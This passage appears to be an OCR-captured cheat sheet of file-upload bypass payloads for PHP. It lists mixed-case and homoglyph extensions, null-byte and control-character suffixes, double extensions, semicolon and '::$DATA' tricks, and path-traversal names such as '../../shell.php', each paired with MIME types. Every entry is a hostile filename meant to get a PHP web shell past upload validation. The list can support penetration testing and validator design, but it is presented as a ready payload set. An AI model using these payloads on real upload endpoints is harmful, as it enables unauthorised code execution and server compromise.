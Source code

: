 
## 2️⃣ Mixed Case / Unicode Homoglyphs (5)
.PHP  
.pHp  
.PHTML  
.pһp  # Cyrillic һ  
.phρ   # Greek rho  
**MIME-Type Related:** application/x-httpd-php, text/x-php, application/x-php

---

## 3️⃣ Null Byte & Control Character Injection (5)
file.php%00  
file.php%00.png  
file.php%0a  
file.php%09  
file.php%20  
**MIME-Type Related:** application/x-httpd-php, image/png, image/jpeg, text/plain

---

## 4️⃣ Double Extensions (5)
file.php.jpg  
file.jpg.php  
file.png.php  
file.gif.php  
file.php.jpg%00.png  
**MIME-Type Related:** application/x-httpd-php, image/jpeg, image/png, image/gif

---

## 5️⃣ Fragment, Comment & Semicolon Tricks (5)
file.php#.jpg  
file.php%23.jpg  
file.php;jpg  
file.php;.jpg  
file.php::$DATA  
**MIME-Type Related:** application/x-httpd-php, image/jpeg, text/plain

---

## 6️⃣ Path Traversal + Upload (5)
../../shell.php  
..%2f..%2fshell.php  
..%5c..%5cshell.php  
%2e%2e%2f%2e%2e%2fshell.php  
shell.php/..  
**MIME-Type Related:** application/x-httpd-php, text/plain

---